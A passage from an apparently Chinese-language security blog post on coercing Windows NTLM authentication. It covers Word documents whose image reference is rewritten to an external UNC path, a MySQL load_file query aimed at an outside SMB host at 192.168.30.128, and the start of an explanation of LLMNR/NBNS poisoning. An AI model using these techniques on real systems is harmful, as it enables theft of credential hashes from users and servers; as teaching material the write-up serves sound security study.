 ## Office

新建一个word，随便放一张图片

![word](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/word.png)

用7zip打开

进入word\_rels，修改document.xml.rels

可以看到Target参数本来是本地的路径，修改为UNC路径，然后加上`TargetMode="External"`

注意：似乎在较新的windows上已经没有这样的操作了，或许是我的环境有问题

## MySql

利用mysql的通信外带

load_file函数支持使用unc路径加载

需要具备load_file权限，且没有secure_file_priv的限制(5.5.53默认是空，之后的话默认为NULL就不好利用了,不排除一些管理员会改)

只需要

```sql
select load_file('\\\\192.168.30.128\\mysql');
```

## NBNS&LLMNR

windows 解析域名的顺序是

- Hosts
- DNS (cache / server) 
- LLMNR
- NBNS 

如果Hosts文件里面不存在，就会使用DNS解析。如果DNS解析失败，就会使用LLMNR解析，如果LLMNR解析失败，就会使用NBNS解析

### LLMNR

LLMNR 是一种基于协议域名系统（DNS）数据包的格式，使得两者的IPv4和IPv6的主机进行名称解析为同一本地链路上的主机，因此也称作多播 DNS。监听的端口为 UDP/5355，支持 IP v4 和 IP v6 ，并且在 Linux 上也实现了此协议。其解析名称的特点为端到端，IPv4 的广播地址为 224.0.0.252，IPv6 的广播地址为 FF02:0:0:0:0:0:1:3 或 FF02::1:3。

LLMNR 进行名称解析的过程为：

- 检查本地 NetBIOS 缓存
- 如果缓存中没有则会像当前子网域发送广播
- 当前子网域的其他主机收到并检查广播包，如果没有主机响应则请求失败

也就是说LLMNR并不需要一个服务器，而是采用广播包的形式，去询问DNS，跟ARP很像，那跟ARP投毒一样的一个安全问题就会出现。

当受害者访问一个不存在的域名

![llmnr](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/llmnr.png)
